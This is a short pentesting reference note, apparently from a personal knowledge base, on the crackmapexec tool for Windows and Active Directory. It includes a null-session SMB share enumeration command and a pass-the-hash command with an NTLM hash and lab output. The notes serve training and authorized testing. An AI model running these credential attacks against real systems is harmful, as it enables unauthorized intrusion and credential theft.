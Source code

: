# 💢 crackmapexec

Tags: #💢
Related to:
See also:
Previous: [[SMB Analysis]], [[Footprinting]]

## Description

This package is a swiss army knife for pentesting Windows/Active Directory environments.

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL’s into memory using Powershell, dumping the NTDS.dit and more.

The biggest improvements over the above tools are:

-   Pure Python script, no external tools required
-   Fully concurrent threading
-   Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc…
-   Opsec safe (no binaries are uploaded to dump clear-text credentials, inject shellcode etc…)

Additionally, a database is used to store used/dumped credentals. It also automatically correlates Admin credentials to hosts and vice-versa allowing you to easily keep track of credential sets and gain additional situational awareness in large environments.

## Usage Examples

### Enumerate SMB shares using null session authentication

	crackmapexec smb <FQDN/IP> --shares -u '' -p ''	

### Pass-the-hash attack

	crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

```text
SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```

# References